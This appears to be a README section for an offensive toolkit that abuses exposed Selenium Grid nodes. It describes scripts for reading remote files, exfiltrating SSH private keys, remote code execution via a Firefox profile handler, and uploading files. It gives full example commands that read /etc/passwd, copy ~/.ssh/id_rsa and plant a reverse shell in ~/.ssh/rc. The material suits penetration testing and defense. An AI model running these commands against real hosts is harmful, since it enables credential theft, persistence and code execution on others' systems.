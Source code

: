 ## Misc Examples
### Catting a Remote file
This simply surfs to the "file:" url and dumps the page contents. 
- [examples/selenium_node_cat.py](examples/selenium_node_cat.py)
- [examples/selenium_node_cat.rb](examples/selenium_node_cat.rb)
Example: `examples/selenium_node_cat.py -h http://selenium-hub.lan:4444/wd/hub -r /etc/passwd`

### Downloading a Remote file from a node.
This using inline HTML to create an inline form with a file upload input. It then sends a local file location into this form. Java-script in this form embeds this base64 encoded file into the same page. This is then read and decoded by the scripts, and saved to a local file.
- [examples/selenium_node_download.py](examples/selenium_node_download.py)
- [examples/selenium_node_download.rb](xamples/selenium_node_download.rb)
Example: `examples/selenium_node_download.py -h http://selenium-hub.lan:4444/wd/hub -r ~/.ssh/id_rsa -l ./nodes_rsa`

### Iterating the File System
Like the Node Download scripts, but not bothering with processing the file in Java-script. If the file doesn't exist, the script, the send_keys() will throw an exception.
- [examples/selenium_node_iterate_fs.py](examples/selenium_node_iterate_fs.py)

### Remote Code Execution
Firefox only. Uses a Firefox Profile (which is just a base64 encoded zip file embedded in an Selenium API hit) create a custom handler (“application/sh” to /bin/sh in this case). In then base64 encodes some shell commands and uses inline “data:” to pass in commands associated with “application/sh”. Firefox will then create a temp file with the commands and execute it with sh.
- [examples/selenium_node_rce.rb](examples/selenium_node_rce.rb)

### Uploading a file to a Remote node.
Firefox only. Uses a Firefox Profile to set a custom download directory and turn off the "Save as" prompt. Then surfs to inline HTML with and embedded "data:" link which is the encoded file to upload. This link is then clicked on.
- [examples/selenium_node_upload.py](examples/selenium_node_upload.py)
- [examples/selenium_node_upload.rb](examples/selenium_node_upload.rb)
Example: `examples/selenium_node_upload.py -h http://selenium-hub.lan:4444/wd/hub -r ~/.ssh/rc -l ./reverse_shell.sh`

### Uploading a file to a Remote node via a profile.
Firefox only. Uses a Filefox Profile, which isnt safely unzipped, to write a file to the Node's filesystem.
- [examples/selenium_node_upload_profile.rb](examples/selenium_node_upload_profile.rb)

